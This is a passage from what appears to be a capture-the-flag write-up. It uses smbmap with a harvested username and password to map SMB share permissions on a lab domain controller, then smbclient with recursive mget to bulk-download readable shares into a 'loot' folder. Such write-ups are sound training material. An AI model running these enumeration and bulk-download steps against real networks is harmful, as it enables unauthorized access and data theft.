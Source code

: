 

`smbmap` shows the same:



    root@kali# smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
    [+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            Audit$                                                  NO ACCESS
            C$                                                      NO ACCESS       Default share
            Data                                                    READ ONLY
            IPC$                                                    NO ACCESS       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            print$                                                  READ ONLY       Printer Drivers
            SYSVOL                                                  READ ONLY       Logon server share 



#### Share Enumeration

There's a bunch of files in each of the shares I have access to. I use
the following commands to just pull all the files in each share (Data
for example):



    root@kali# smbclient --user r.thompson //10.10.10.182/data rY4n5eva
    Try "help" to get a list of possible commands.
    smb: \> mask ""
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> mget *
    NT_STATUS_ACCESS_DENIED listing \Contractors\*
    NT_STATUS_ACCESS_DENIED listing \Finance\*
    getting file \IT\Email Archives\Meeting_Notes_June_2018.md of size 2522 as Meeting_Notes_June_2018.md (47.4 KiloBytes/sec) (average 47.4 KiloBytes/sec)
    getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (20.2 KiloBytes/sec) (average 32.5 KiloBytes/sec)
    getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (91.0 KiloBytes/sec) (average 53.4 KiloBytes/sec)
    getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as VNC Install.reg (50.3 KiloBytes/sec) (average 52.7 KiloBytes/sec)
    NT_STATUS_ACCESS_DENIED listing \Production\*
    NT_STATUS_ACCESS_DENIED listing \Temps\*



Then I can see a nice list of the files with `find`:



    root@kali# find smb-data-loot/ -type f 
    smb-data-loot/IT/Logs/DCs/dcdiag.log
    smb-data-loot/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log
    smb-data-loot/IT/Email Archives/Meeting_Notes_June_2018.md
    smb-data-loot/IT/Temp/s.smith/VNC Install.reg
